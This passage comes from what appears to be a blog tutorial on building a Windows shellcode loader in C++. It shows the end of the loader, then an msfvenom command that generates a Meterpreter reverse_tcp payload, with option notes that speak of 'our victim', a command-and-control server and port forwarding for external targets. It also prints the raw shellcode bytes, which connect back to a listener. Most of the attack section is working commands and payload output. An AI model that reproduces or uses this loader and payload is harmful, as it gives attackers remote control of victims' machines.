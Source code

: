 ```C++

	// Infinite loop until the program isn't closed
	WaitForSingleObject(hThread, INFINITE);
	
	// Properly handle closing and memory releasing
	CloseHandle(hThread);
	VirtualFree(mem_alloc, 0, MEM_RELEASE);
		
	return 0;
}
```

I compile the code with the command `g++ main.cpp`, execute the program and...
![Malware execution example](/img/malware-example-1.png)

***Tadaaaaa!!*** 🎉🎉🎉	

## Application (metasploit payload)

### Generating the shellcode

To generate our payload, we will run the following command:
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c`

- **windows/x64/meterpreter/reverse_tcp**: Our payload type.
- **LHOST**: The IP address of our command and control server. Attention, if your target is outside of your network, please use your public IPv4 address.
- **LPORT**: The port we will use to communicate with our victim. Again, if your target is external, forward your port and use on that is available (for instance 1234 or 4444).
- **EXITFUNC=thread**: Tells the shellcode to exit via a thread termination. It's necessary to maintain the connection with our victim.
- **-f c**: Telling metasploit to give us a shellcode.

Output:

```
/opt/metasploit/config/application.rb:1: warning: /usr/lib/ruby/3.3.0/fiddle.rb was loaded from the standard library, but will no longer be part of the default gems starting from Ruby 3.5.0.
You can add fiddle to your Gemfile or gemspec to silence this warning.
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Final size of c file: 2179 bytes
unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x48\x31\xd2\x56\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x8b"
"\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x41\x51\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x50\x44\x8b\x40\x20\x8b\x48\x18\x49"
"\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6"
"\x4d\x31\xc9\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
"\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x04\xd2\xc0\xa8\x01\x14\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
```